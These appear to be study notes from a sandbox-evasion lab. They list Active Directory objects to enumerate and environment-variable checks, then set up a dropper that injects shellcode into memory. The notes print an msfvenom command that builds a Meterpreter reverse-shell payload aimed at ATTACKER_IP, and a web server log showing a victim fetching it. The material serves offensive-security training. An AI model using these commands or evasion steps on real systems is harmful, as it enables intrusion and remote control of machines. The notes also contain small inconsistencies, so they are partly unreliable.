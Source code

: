- However, you cannot always be too sure, so you should collect some information about the domain to be safe.
- There are many `objects` you can query like:

		-   Computers
		-   User accounts
		-   Last User Login(s)
		-   Groups
		-   Domain Admins
		-   Enterprise Admins
		-   Domain Controllers
		-   Service Accounts
		-   DNS Servers


- These techniques can vary in difficulty therefore, you should consider how much time and effort you want to spend builting out these evasion methods.
- A simple method, such as **checking the systems environment variables** (this can be done with `echo $VARIABLE%`)

		- You can also display ALL variables with "set" command.

- for an item like the
	
		- LogonServer
		- LogonUserSid
		- LogonDomain

- may be much easier than implementing a Windows API. 


### Setting the Stage
- Now that you have a better understanding of what Sandbox Bypass method types exist, we will take it to the next step and implement some of the Sandbox Bypasses in the next task.

<u>What does the Dropper do</u>:
- Retrieves shellcode from a Web Server (specifically from `/index.raw`)
- Injects the raw bytes into memory and executes the shellcode.

- The shellcode must be MSFVenom raw format in 64-bit not 32-bit.

```shell-session
// Create the shellcode
user@attack-box$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f raw -o index.raw
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Saved as: index.raw

// Create web server that the victim's machine can download the malicious file from
user@attack-box$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.212 - - [20/Mar/2022 22:04:22] "GET /index.raw HTTP/1.1" 200 -
```
